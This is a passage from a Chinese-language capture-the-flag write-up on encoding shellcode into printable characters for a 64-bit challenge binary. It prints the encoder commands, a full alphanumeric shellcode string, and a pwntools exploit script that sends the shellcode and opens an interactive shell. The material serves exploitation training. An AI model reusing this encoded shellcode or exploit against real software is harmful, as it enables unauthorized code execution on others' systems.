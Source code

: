 ```python
python2 main.py <shellcode file> <pointer to shellcode>

#exmple：
python2 main.py shellcode.bin rcx
python2 main.py shellcode.bin [rsp+-8]
python2 main.py shellcode.bin 0x0123456789abcdef
python2 main.py shellcode.bin rbp+5
```

回头看一下之前的64位题目（chall3，**可见字符**），放入IDA中看一下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610608233903-92590b80-7e97-4d60-a1f9-2dd22193d729.png)

最后仍旧使用call rax来执行shellcode

因此将下载得到的shellcode文件放入到shellcode_encoder文件夹中，执行命令：

```c
python2 main.py shellcode rax
```

> 请手动创建shellcode文件：（可以到shellcode库下载，这里有很多的shellcode）
>
> [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)
>
> 也可以到附件中下载shellcode文件，下面使用的是附件中的shellcode
>

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610613683105-361ec121-3626-4995-9ae0-f7b48bd90f31.png)

> PZTAYAXVI31VXPP[_Hc4:14:SX-i+lr-!&Xp5>%?/P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-9OOd-Q_  5>^??P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-W`h)-H   5Sw??P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-QZ##-|@ @57_?[P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-i+Fr-\  ^537_?P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-  uI-!@` 5:__~P^14:WX-_^/?-=apD-`@`|P_SX-"A`B-#`@~5#__?P_Hc4:14:SX- A $-3   5R|/+P^14:WX-_^/?-=apD-`@`|P_SX-@Ebi- \`Y5<_==P^SX-_A1"-q@_~5(~o_P_AAAA!39(.d@;*ez0&!4n_7lrt4n@1*}~w<?}X9.543}ng$h.j7g4w_iZ?%oQGq|{"7W%78w?s!|N8~?DB#*MA<z$3[P.f0R*z7!|
>

编写exp如下：（shellcode最好用三引号括起来）

```python
from pwn import *
context.log_level='debug'

p=process('./chall3') 
#gdb.attach(p)
payload='''PZTAYAXVI31VXPP[_Hc4:14:SX-i+lr-!&Xp5>%?/P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-9OOd-Q_  5>^??P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-W`h)-H   5Sw??P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-QZ##-|@ @57_?[P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-i+Fr-\  ^537_?P^14:WX-_^/?-=apD-`@`|P_Hc4:14:SX-  uI-!@` 5:__~P^14:WX-_^/?-=apD-`@`|P_SX-"A`B-#`@~5#__?P_Hc4:14:SX- A $-3   5R|/+P^14:WX-_^/?-=apD-`@`|P_SX-@Ebi- \`Y5<_==P^SX-_A1"-q@_~5(~o_P_AAAA!39(.d@;*ez0&!4n_7lrt4n@1*}~w<?}X9.543}ng$h.j7g4w_iZ?%oQGq|{"7W%78w?s!|N8~?DB#*MA<z$3[P.f0R*z7!|'''
p.send(payload)
p.interactive()
```
